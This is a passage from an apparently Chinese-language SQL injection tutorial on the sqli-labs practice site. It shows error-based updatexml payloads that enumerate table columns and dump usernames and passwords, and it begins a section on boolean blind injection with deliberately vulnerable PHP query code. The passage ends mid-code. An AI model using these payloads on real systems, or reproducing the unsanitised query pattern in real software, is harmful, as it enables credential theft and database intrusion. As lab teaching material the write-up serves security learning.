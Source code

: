 
如果要看第二行则，limit1,1（第一行的往下一行，不包括第一行，即显示第二行），看第三行则limit2,1。以这个方法获取第四个表为users

3. 爆表中的字段

```
?id=1' and updatexml(1,concat('^',(select column_name from information_schema.columns where table_name='users' and table_schema='security' limit 0,1 ),'^'),1) --+
```

![](https://xxxiuron-picture.oss-cn-chengdu.aliyuncs.com/20210316095511672.png)

总共爆出的字段为： id , username , password

4. 爆字段中的内容

```
?id=1' and updatexml(1,concat('^',(select group_concat(username,"--",password) from users limit 0,1 ),'^'),1) --+
```

三组用户名和密码。

![](https://xxxiuron-picture.oss-cn-chengdu.aliyuncs.com/20210316095719686.png)

### 基于布尔的盲注

布尔盲注，即在页面没有错误回显时完成的注入攻击。此时我们输入的语句让页面呈现出两种状态，相当于true和false，根据这两种状态可以判断我们输入的语句是否查询成功。以less-8关为例

1. 我们输入正确的id，显示You are in .....

![](https://xxxiuron-picture.oss-cn-chengdu.aliyuncs.com/2021031617333684.png)

我们输入错误的语句如id=1' ，或者id=-1时，就什么都不显示。这就是布尔盲注，屏幕上能得到信息不多，就是两种状态

![](https://xxxiuron-picture.oss-cn-chengdu.aliyuncs.com/20210316173450459.png)

源码如下

```
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1 ";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
 
	if($row)
	{
  	echo '<font size="5" color="#FFFF00">';	
  	echo 'You are in...........';
  	echo "<br>";
    	echo "</font>";
  	}
	else 
	{
    echo '<font size="5" color="#FFFF00">';
    ｝
```
